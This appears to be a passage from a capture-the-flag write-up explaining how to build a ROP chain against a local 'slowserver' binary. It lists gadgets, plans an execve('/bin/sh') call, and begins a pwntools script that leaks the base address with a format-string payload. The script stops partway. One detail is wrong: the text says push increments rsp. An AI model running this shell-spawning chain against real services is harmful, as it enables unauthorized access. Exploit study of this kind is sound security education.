 ### Building the ROP Chain

Now that we have the base address where the binary is loaded and a way to control the flow of the process, we can look for gadgets in the binary that can help us build a `ROP chain` to spawn a shell using `ROPgadget`.

```console
$ ROPgadget --binary slowserver
```

Our end goal is to be able to call the `execve` system call as `execve("/bin/sh\0", 0, 0)`. For that, we need to control the `rax`, `rdi`, `rsi`, and `rdx` registers. Here are the gadgets that can help us achieve this:

```console
0x000000000000180b : pop rax ; ret
0x0000000000001816 : pop rdi ; xor rdi, rbp ; ret
0x0000000000001811 : pop rsi ; ret
0x000000000000180d : pop rdx ; pop r12 ; ret
0x0000000000001807 : push rbp ; mov rbp, rsp ; pop rax ; ret
0x0000000000001813 : syscall
```

To call `execve("/bin/sh\0", 0, 0)`, we need to set `rax` to `59` (syscall number for `execve`), `rdi` with the address of the `/bin/sh\0` string, and `rsi` and `rdx` to `0`.

Setting the values of the `rax`, `rsi`, and `rdx` registers is simple since we have corresponding **pop** instructions. However, setting `rdi` is more complex, as we need to set it to the address of `/bin/sh\0` and not just the string itself.

However, we can achieve this by using the `push rbp ; mov rbp, rsp ; pop rax ; ret` and `pop rdi ; xor rdi, rbp ; ret` gadgets as such:

1. First, we set the value of the `rbp` register to `/bin/sh\0`.
2. We then use the `push rbp ; mov rbp, rsp ; pop rax ; ret` gadget. The `push rbp` instruction pushes the string to the stack, incrementing the address in the `rsp` register by 8 to point to the string. The `mov rbp, rsp` instruction moves the address in `rsp` (which points to the `/bin/sh\0` string) to the `rbp` pointer. The `pop rax` instruction loads the `/bin/sh\0` string into the `rax` register, but we don't need to care about that.
3. Next, we use the `pop rdi ; xor rdi, rbp ; ret` gadget to move the address of `/bin/sh\0` from the `rbp` register to the `rdi` register. The `pop rdi` instruction allows us to write any value to `rdi`, so we set it to `0` due to the next instruction. The `xor rdi, rbp` instruction XORs the `rdi` register with the `rbp` register, and saves the result in the `rdi` register and since the `rbp` register already has the address of the `/bin/sh\0` string and because `A ^ 0 = A`, which essentially turns it into `mov rdi, rbp`, allowing us to put the address of `/bin/sh\0` into the `rdi` register.

Our script with the **ROP chain** included looks like this:

```py
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

remote_addr = "127.0.0.1"

# Connect to the target service and leak the binary base address
r1 = remote(remote_addr, 5555)
payload = b"DEBUG %136$p \n"
r1.sendline(payload)
resp = r1.recv().strip()
resp = int(resp, 16)
binary_base = resp - 0x1780
r1.close()

# Gadget List (Offsets to useful instructions for ROP chain)
# 0x000000000000180b : pop rax ; ret
```